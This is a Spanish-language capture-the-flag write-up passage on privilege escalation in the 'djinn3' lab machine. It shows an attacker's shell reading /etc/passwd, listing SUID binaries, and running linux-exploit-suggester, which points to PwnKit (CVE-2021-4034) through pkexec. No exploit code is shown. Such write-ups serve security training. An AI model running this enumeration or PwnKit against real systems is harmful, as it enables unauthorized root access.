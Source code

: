 # Privilege Escalation
Vemos que existen varios usuarios en la máquina víctima.
```console
(remote) www-data@djinn3:/opt/.web$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
saint:x:1000:1002:,,,:/home/saint:/bin/bash
jack:x:1001:1003:,,,:/home/jack:/bin/bash
mzfr:x:1002:1004:,,,:/home/mzfr:/bin/bash
```

Existe una manera intencionada para escalar privilegios, la cual es mas complicada que la manera de la cual yo escalé los privilegios, pero seguridad avanza y esta máquina era vulnerable a....
```console
find / \-perm \-4000 2>/dev/null
/bin/su
/bin/umount
/bin/mount
/bin/fusermount
/bin/ping
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/newgrp
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Vaya, el `pkexec` tiene permisos de SUID, eso significa que quizás podamos utilizar `PwnKit` (CVE-2021-4034) para escalar privilegios.

De hecho si pasamos el `linux-exploit-suggester.sh` vemos que nos dice que probablemente la máquina sea vulnerable ya que encaja con la versión de la distribución.
```console
./linux-exploit-suggester.sh

Available information:

Kernel version: 4.15.0
Architecture: x86_64
Distribution: ubuntu
Distribution version: 18.04
Additional checks (CONFIG_*, sysctl entries, custom Bash commands): performed
Package listing: from current OS

Searching among:

81 kernel space exploits
49 user space exploits

Possible Exploits:

[+] [CVE-2021-4034] PwnKit

```